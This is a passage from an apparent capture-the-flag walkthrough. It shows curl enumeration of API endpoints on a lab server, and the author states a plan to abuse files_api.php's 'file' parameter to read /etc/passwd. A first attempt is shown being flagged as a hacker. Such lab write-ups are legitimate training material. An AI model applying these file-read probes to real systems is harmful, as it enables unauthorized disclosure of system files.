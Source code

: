 By checking all of these files, only `files_api.php` is present. 

{% highlight text %}
root@kali:~# curl 10.0.0.14:8011/api/web_api.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /api/web_api.php was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 10.0.0.14 Port 8011</address>
</body></html>
root@kali:~# curl 10.0.0.14:8011/api/records_api.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /api/records_api.php was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 10.0.0.14 Port 8011</address>
</body></html>
root@kali:~# curl 10.0.0.14:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

<p>No parameter called file passed to me</p><p>* Note : this API don't use json , so send the file name in raw format</p>
root@kali:~# curl 10.0.0.14:8011/api/database_api.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /api/database_api.php was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 10.0.0.14 Port 8011</address>
</body></html>
{% endhighlight %}

We can see that it needs a `file` parameter, which we can do with `curl` and `/etc/passwd` file. 

{% highlight text %}
root@kali:~# curl http://10.0.0.14:8011/api/files_api.php?file=index.php

<head>
  <title>franks website | simple website browser API</title>
</head>

<b>********* HACKER DETECTED *********</b><p>YOUR IP IS : 10.0.0.4</p><p>WRONG INPUT !!</p>
{% endhighlight %}

